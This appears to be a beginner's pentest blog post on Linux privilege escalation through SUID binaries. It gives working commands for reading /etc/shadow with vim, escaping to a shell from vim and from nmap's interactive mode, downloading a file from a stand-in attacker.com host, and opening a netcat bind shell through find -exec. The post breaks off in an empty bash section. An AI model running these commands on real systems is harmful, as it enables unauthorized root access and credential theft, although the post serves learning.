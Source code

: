 ```yaml
--- 
titile: The art of gaining root 
author: Software User
date: 2021-03-17 16:31:00 +0800
category: pentest
tags: [linux,privesc,root,root-shell]
--- 
```


---
<strong><span style="color:#06bf04">Hi Guys, This is my First blog about Linux Privilege escalation. So Without wasting any time Let’s Start I’ll start with basics. </span></strong>


![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/1.png" | relative_url }})

--

# So, What is Linux and Privilege Escalation

1. Linux -: Linux is the best-known and most-used open-source operating system. As an operating system, Linux is software that sits underneath all of the other software on a computer, receiving requests from those programs and relaying these requests to the computer’s hardware.

2. PRIVILEGE ESCALATION -: Privilege escalation is a common way for attackers to gain unauthorized access to systems within a security perimeter.

3. Attackers start by finding weak points in an organization’s defenses and gaining access to a system. In many cases that the first point of penetration will not grant attackers with the level of access or data they need. They will then attempt privilege escalation to gain more permissions or obtain access to additional, more sensitive systems.

# Why Privilege Escalation is Important ?

While usually not the main aim of an attacker, privilege escalation is frequently used in preparation for a more specific attack, allowing intruders to deploy a malicious payload or execute malicious code in the targeted system. This means that whenever you detect or suspect privilege escalation, you also need to look for signs of other malicious activity. However, even without evidence of further attacks, any privilege escalation incident is an information security issue in itself, because someone could have gained unauthorized access to personal, confidential, or otherwise sensitive data. In many cases, this will have to be reported internally or to the relevant authorities to ensure compliance.

So here we covered some theoretical part the meaning of privilege escalation is gaining access on the root with a non-root account.

# Privilege Escalation through SUID 

<strong>SUID</strong> setuid and setgid are Unix access rights flags that allow users to run an executable.

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/2.png" | relative_url }})

### List of executables -:

1. vim
2. find
3. Nmap
4. bash
5. less
6. more

# How to Find Files with SUID Set in Linux?

```bash
find . -perm /4000
```

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/3.png" | relative_url }})

you can add more things in this like -l(long listing).

# 1. VIM -: 
Vim is a highly configurable text editor built to enable efficient text editing. It is an improved version of the vi editor distributed with most UNIX/Linux systems. If vim is running as a suid it can access some root files.
You can access any file you can do many things like spawning shell.

like this -:

### 1. vim.tiny /etc/shadow

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/4.png" | relative_url }})

1. Press ESC key

:set shell=/bin/sh

:shell

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/5.png" | relative_url }})

1. file download -:

```markdown
export URL=http://attacker.com/file_to_get

export LFILE=file_to_save

vim -c ‘:py import vim,sys; from os import environ as e

if sys.version_info.major == 3: import urllib.request as r

else: import urllib as r

r.urlretrieve(e[“URL”], e[“LFILE”])

vim.command(“:q!”)’
```
for more checkout [here](https://gtfobins.github.io/gtfobins/vim/
)


# 2. Find

find -: find is used to find files


```bash
touch *****
find ***** -exec whoami \;
```
![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/6.png" | relative_url }})

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/7.png" | relative_url }})

getting shell

```bash
find / -name software_user -exec netcat -lvp 5555 -e /bin/sh \;
netcat 192.*.*.* 5555
```

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/8.png" | relative_url }})

# 3. NMAP

nmap -: Older versions of Nmap (2.02 to 5.21) had an interactive mode. and through this interactive mode, you can spawn root shell.

1. nmap -V (for finding version )

2. nmap — interactive
    
3. nmap> !sh

4. whoami

5. root

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/9.png" | relative_url }})

# 4. BASH

bash -: On Linux, bash is the standard shell .
open a bash shell as root.


testing 1234

